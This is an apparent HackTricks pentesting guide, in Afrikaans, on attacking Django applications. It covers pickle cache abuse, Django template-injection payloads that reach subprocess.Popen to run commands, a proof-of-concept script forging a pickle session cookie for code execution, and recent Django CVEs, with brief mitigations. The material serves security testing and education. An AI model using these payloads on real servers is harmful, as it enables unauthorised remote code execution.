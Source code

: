 # Django

{{#include /src/banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django se standaard cache stoor metode is [Python pickles](https://docs.python.org/3/library/pickle.html), wat kan lei tot RCE as [onbetroubare invoer onpickled word](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **As 'n aanvaller skrywe toegang tot die cache kan verkry, kan hulle hierdie kwesbaarheid na RCE op die onderliggende bediener eskaleer**.

Django cache word gestoor in een van vier plekke: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [geheue](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [lêers](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), of 'n [databasis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache wat in 'n Redis bediener of databasis gestoor is, is die mees waarskynlike aanvalsvectors (Redis-inspuiting en SQL-inspuiting), maar 'n aanvaller mag ook in staat wees om lêer-gebaseerde cache te gebruik om 'n arbitrêre skrywe in RCE te omskep. Onderhouers het dit as 'n nie-kwestie gemerk. Dit is belangrik om te noem dat die cache lêer gids, SQL tabelnaam, en Redis bediener besonderhede sal verskil op grond van implementering.

Hierdie HackerOne verslag bied 'n uitstekende, herhaalbare voorbeeld van die ontginning van Django cache wat in 'n SQLite databasis gestoor is: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Die Django Template Taal (DTL) is **Turing-voltooi**. As gebruiker-gelewer data as 'n *template string* gerender word (byvoorbeeld deur `Template(user_input).render()` aan te roep of wanneer `|safe`/`format_html()` outo-escaping verwyder), kan 'n aanvaller volle SSTI → RCE bereik.

### Detection
1. Soek vir dinamiese oproepe na `Template()` / `Engine.from_string()` / `render_to_string()` wat *enige* ongesanitiseerde versoekdata insluit.
2. Stuur 'n tyd-gebaseerde of aritmetiese payload:
```django
{{7*7}}
```
As die gerenderde uitvoer `49` bevat, word die invoer deur die template engine gecompileer.

### Primitive to RCE
Django blokkeer direkte toegang tot `__import__`, maar die Python objekgrafiek is bereikbaar:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Vind die indeks van `subprocess.Popen` (≈400–500 afhangende van die Python-bou) en voer arbitrêre opdragte uit:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
'n Veiliger universele gadget is om te herhaal totdat `cls.__name__ == 'Popen'`.

Dieselfde gadget werk vir **Debug Toolbar** of **Django-CMS** sjabloon weergawe funksies wat gebruikersinvoer verkeerd hanteer.

---

## Pickle-Backed Session Cookie RCE
As die instelling `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` geaktiveer is (of 'n pasgemaakte serializer wat pickle deserialiseer), dekripteer en unpickles Django die sessie koekie **voor** enige view kode aangeroep word. Daarom is dit genoeg om 'n geldige ondertekeningssleutel (die projek `SECRET_KEY` per standaard) te besit vir onmiddellike afstands kode uitvoering.

### Exploit Vereistes
* Die bediener gebruik `PickleSerializer`.
* Die aanvaller weet / kan raai `settings.SECRET_KEY` (lekke via GitHub, `.env`, fout bladsye, ens.).

### Bewys-van-Konsep
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Stuur die resulterende koekie, en die payload loop met die toestemmings van die WSGI-werker.

**Mitigations**: Hou die standaard `JSONSerializer`, draai `SECRET_KEY` om, en konfigureer `SESSION_COOKIE_HTTPONLY`.

---

## Onlangs (2023-2025) Hoë-Impakte Django CVEs Pentesters Moet Nagaan
* **CVE-2025-48432** – *Log-inspuiting via ongeëscape `request.path`* (opgelos 4 Junie 2025). Laat aanvallers toe om nuwe reëls/ANSI-kodes in loglêers te smokkel en afgeleide loganalise te vergiftig. Patches vlak ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritieke SQL-inspuiting* in `QuerySet.values()/values_list()` op `JSONField` (CVSS 9.8). Skep JSON sleutels om uit aanhalingstekens te breek en arbitrêre SQL uit te voer. Opgelos in 4.2.15 / 5.0.8.

Fingerprint altyd die presiese raamwerk weergawe via die `X-Frame-Options` foutblad of `/static/admin/css/base.css` hash en toets die bogenoemde waar van toepassing.

---

## Verwysings
* Django sekuriteitsvrystelling – "Django 5.2.2, 5.1.10, 4.2.22 adresseer CVE-2025-48432" – 4 Junie 2025.
* OP-Innovate: "Django vrystellings sekuriteitsopdaterings om SQL-inspuitingsfout CVE-2024-42005 aan te spreek" – 11 Augustus 2024.

{{#include /src/banners/hacktricks-training.md}}
